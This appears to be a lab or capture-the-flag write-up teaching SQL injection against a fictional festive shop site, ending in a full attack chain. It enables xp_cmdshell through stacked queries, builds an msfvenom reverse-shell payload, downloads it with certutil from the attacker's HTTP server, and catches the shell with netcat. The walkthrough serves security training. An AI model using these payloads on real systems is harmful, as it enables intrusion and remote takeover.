

# SQL Injection

Taking in user-supplied input gives us powerful ways to create dynamic content, but failing to secure this input correctly can expose a critical vulnerability known as SQL injection (SQLi). SQL injection is an attack technique that exploits how web applications handle user input, particularly in SQL queries. Instead of providing legitimate input (like the ornament colour in the example above), the attacker injects malicious SQL statements into a web application's input fields or parameters. The application's database server then executes this rogue SQL query.

consider our previous PHP code for fetching user input to search for ornament colours:

```php
// Retrieve the GET parameter and save it as a variable
$colour = $_GET['colour'];

// Execute an SQL query with the user-supplied variable
$query = "SELECT * FROM tbl_ornaments WHERE colour = '$colour'";
$result = sqlsrv_query($conn, $query);
```

Without adequate security measures, an attacker could manipulate the "colour" parameter to execute malicious SQL queries. For instance, instead of searching for a benign colour, they might input `' OR 1=1 --` as the input parameter, which would transform the query into:



## Caution Around OR 1=1

It's crucial to emphasise the potential risks of using the `OR 1=1` payload. While commonly used for illustration, injecting it without caution can lead to unintended havoc on a database. When injecting `OR 1=1` into a query, the intention is typically to bypass authentication or to return all items in a table by making the condition always true. However, the risks lie in that you might not be aware of the context and scope of the query you're injecting into. Additionally, applications may sometimes use values from an initial request in multiple SQL queries. SQL injection payloads that return all rows can lead to unintended consequences when injected into different types of statements, such as UPDATE or DELETE.

Imagine injecting it into a query that updates a specific user's information. An `OR 1=1` payload would make the condition true for every row, leading to a mass update affecting all records (users) in the table. This lack of specificity in the payload makes it a risky choice for penetration testers who might inadvertently cause significant data loss or alterations. A safer example would be a more targeted condition based on a known attribute identifying the record you want to manipulate. For instance, `bob' AND 1=1--` would update Bob's record, while `bob' AND 1=2--` would not. This still demonstrates the SQL injection vulnerability without putting the entire table's records at risk.

## Stacked Queries

SQL injection attacks can come in various forms. A technique that often gives an attacker a lot of control is known as a "stacked query". Stacked queries enable attackers to terminate the original (intended) query and execute additional SQL statements in a single injection, potentially leading to more severe consequences such as data modification and calls to stored procedures or functions.

In SQL, the semicolon typically signifies one statement's conclusion and another's commencement. This feature facilitates the execution of multiple SQL statements within a single interaction with the database server. It's important to note that certain web application technologies and database management systems (DBMS) may demand different syntax or lack support for stacked queries. Consequently, enumeration is essential for precision when conducting injection attacks.

Suppose our attacker in the previous example wants to go beyond just retrieving all rows and intends to insert some malicious data into the database. They can modify the previous injection payload to this:

`' ; INSERT INTO tbl_ornaments (elf_id, colour, category, material, price) VALUES (109, 'Evil Red', 'Broken Candy Cane', 'Coal', 99.99); --`  
When the web application processes this input, here's the resulting query the database would execute:

`SELECT * FROM tbl_ornaments WHERE colour = '' ; INSERT INTO tbl_ornaments (elf_id, colour, category, material, price) VALUES (109, 'Evil Red', 'Broken Candy Cane', 'Coal', 99.99); --'`

## Test

To test the input fields, we can submit characters like single quotes (') and double quotes ("), as these are special characters that attackers use to manipulate SQL queries. We might be able to trigger error messages by introducing possible syntax errors in the query and prove that the input is unsanitised as it reaches the back end.

The error we receive is a huge breakthrough, as it gives us many details on the underlying database management system powering this website and confirms that the user input is unsanitised.

Error message enumeration is critical to SQL injection testing because it equips attackers with valuable information for crafting more precise and effective attack payloads. Because of this, it's always essential to monitor and sanitise error messages to prevent sensitive information from leaking.

## xp_cmdshell

xp_cmdshell is a system-extended stored procedure in Microsoft SQL Server that enables the execution of operating system commands and programs from within SQL Server. It provides a mechanism for SQL Server to interact directly with the host operating system's command shell. While it can be a powerful administrative tool, it can also be a security risk if not used cautiously when enabled.

Because of the known risks involved, it's recommended that this functionality is disabled on production servers (and is by default). However, due to misconfigurations and legacy applications that require it, it's common to see it enabled in the wild. For example, suppose you have an HR management system that needs to export data periodically to a CSV file and upload it to an external server. Instead of using more secure and modern methods like SQL Server Integration Services (SSIS) or custom application code, legacy applications may have opted to rely on xp_cmdshell to execute system-level commands to export the data. While this accomplishes the same task, it poses security and maintainability risks and grants excessive system access to the SQL Server.

It is also possible to manually enable xp_cmdshell in SQL Server through EXECUTE (EXEC) queries. Still, it requires the database user to be a member of the sysadmin fixed server role or have the ALTER SETTINGS server-level permission to execute this command. However, as mentioned previously, misconfigurations that allow this execution are not too uncommon.

We can attempt to enable xp_cmdshell on the Best Festival Company database by stacking the following commands using the SQL injection we discovered:

```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```
By injecting the above statements into SQL Server, we'll first enable advanced configuration options in SQL Server by setting show advanced options to 1. We then apply the change to the running configuration via the RECONFIGURE statement. Next, we enable the xp_cmdshell procedure by setting xp_cmdshell to 1 and applying the change to the running configuration again.

Converting these into a single stacked SQLi payload will look like this:

`http://10.10.25.141/giftresults.php?age='; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --`
By requesting the URL with these parameters, we should be able to execute the stacked queries and enable the xp_cmdshell procedure. With this feature enabled, we can execute any Windows shell command through the EXECUTE (or EXEC) statement followed by the command name.

Unfortunately, one of the caveats to this approach is that it returns its results as rows of text. This means that, typically, the output will never be returned to the user since the injection no longer occurs in the original, intended query. Because of this, we are often in the dark as to whether our injection worked. But there are ways to validate whether or not our approach is working.

## MSFvenom
MSFvenom is a command-line payload generation tool. It's part of the Metasploit Framework, a widely used penetration testing and ethical hacking set of utilities. MSFvenom is explicitly designed for payload generation and can be used to generate a Windows executable that, when executed, will make a reverse shell connection back to our AttackBox. We can run the following command on a Kali machine (or the AttackBox):

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR.IP.ADDRESS.HERE LPORT=4444 -f exe -o reverse.exe`

You can obtain your IP address by running `ifconfig ens5 | grep -oP 'inet \K[\d.]+'` in your terminal.

It will take a moment to generate, but once complete, you will have created a reverse.exe Windows executable file that will establish a reverse TCP connection to your IP address over port 4444 when executed on the target.

With our payload created, we can set up a quick HTTP server on our AttackBox using Python to serve the file:
`python3 -m http.server 8000`

By running the above command, we will set up a lightweight web server on port 8000 that we can use to serve our payload. All the files in our current directory, including reverse.exe, will be served using this method and will be accessible for the Best Festival server to download.

It's time to use our stacked query to call xp_cmdshell and execute the certutil.exe command on the target to download our payload.

`http://10.10.25.141/giftresults.php?age='; EXEC xp_cmdshell 'certutil -urlcache -f http://YOUR.IP.ADDRESS.HERE:8000/reverse.exe C:\Windows\Temp\reverse.exe'; --`

The above SQL statement will call certutil to download the reverse.exe file from our Python HTTP server and save it to the Windows temp directory for later use. After requesting the above URL to execute the stacked query, we should immediately know if we were successful by checking the output of our HTTP server. There should be a request for reverse.exe:
```
└─$ python3 -m http.server 8000  	 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.25.141 - - [10/Dec/2023 14:20:59] "GET /reverse.exe HTTP/1.1" 200 -
```
Great progress! We've achieved remote code execution and now have our reverse shell payload on the target system. All we have to do now is set up a listener to catch the shell and then have the system execute the payload executable. To set up our listener, we can use the netcat utility on the AttackBox to listen on port 4444 (the same port we specified in our payload). Netcat is a versatile networking utility that can be used for reading from and writing to network connections.
`nc -lnvp 4444`

Now, we can run one final stacked query to execute the reverse.exe file we previously saved in the C:\Windows\Temp directory:
`http://10.10.25.141/giftresults.php?age='; EXEC xp_cmdshell 'C:\Windows\Temp\reverse.exe'; --`

After requesting the above URL, return to your netcat listener terminal window. You should see that we caught the shell and made the connection!